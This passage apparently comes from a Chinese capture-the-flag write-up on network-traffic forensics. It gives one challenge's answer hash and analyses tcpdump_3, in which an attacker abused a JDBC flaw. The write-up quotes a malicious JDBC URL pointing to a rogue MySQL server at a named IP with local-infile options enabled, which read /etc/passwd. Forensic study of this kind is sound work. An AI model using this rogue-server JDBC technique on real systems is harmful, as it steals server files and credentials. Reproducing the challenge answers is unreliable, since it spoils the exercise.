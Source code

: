 [![](assets/1702520939-f5d72c6f0d0973c775b7acfde97a30b2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213174654-8c3d791e-999c-1.png)  
那么这道题的答案就是**383c74db4e32513daaa1eeb1726d7255**  
[![](assets/1702520939-fba2715e2da2564c8ff69b6bb0863923.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231213174718-9ad72e48-999c-1.png)

### tcpdump\_3

> 题目内容：攻击使用 jdbc 漏洞读取了应用配置文件，给出配置中的数据库账号密码，以：拼接，比如 root:123456

通过题目知道利用 jdbc 漏洞读取文件，所以就不能光看 http 的流量，查看 TCP 的流量。可以看到服务器连接了恶意 mysql 服务端`jdbc:mysql://116.62.63.234:3307/test?allowLoadLocalInfile=true&allowUrlInLocalInfile=true&maxAllowedPacket=655360` ，并且读取了`/etc/passwd`文件。  